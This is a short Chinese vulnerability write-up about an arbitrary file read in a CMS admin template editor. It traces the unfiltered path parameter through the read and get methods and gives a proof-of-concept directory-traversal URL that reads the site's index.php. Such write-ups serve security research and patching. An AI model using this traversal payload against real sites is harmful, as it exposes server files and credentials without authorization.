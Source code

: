 ### 一、漏洞简介 ###

### 二、漏洞影响 ###

### 三、复现过程 ###

漏洞起始点位于/Application/Admin/Controller/TemplateController.class.php中的edit方法，该方法用作后台模板编辑，关键代码如下
![](任意文件读取/SHJ3QWdlhwmORiG.png)

我们传入的路径需要将/替换为*接着调用了read方法，跟进该方法
    
    public function read($filename,$type=''){
      return $this->get($filename,'content',$type);
    }
继续跟进get方法
    
    public function get($filename,$name,$type='') {
    if(!isset($this->contents[$filename])) {
    if(!is_file($filename)) return false;
    $this->contents[$filename]=file_get_contents($filename);
    }
    $content=$this->contents[$filename];
    $info   =   array(
    'mtime' =>  filemtime($filename),
    'content'   =>  $content
    );
    return $info[$name];
    }
    }
该方法中返回了要读取的文件内容，可以看到在整个流程中没有对传入参数path的过滤，导致我们可以跨目录读文件，下面来验证一下，尝试读取一下跟目录index.php文件，测试链接如下

    http://lfcms.com/admin.php?s=/Template/edit/path/*..*index.php
![](任意文件读取/6HB9uAgiToOfcSM.png)
成功的读到了CMS的入口文件

### 参考链接 ###
https://xz.aliyun.com/t/7844#toc-4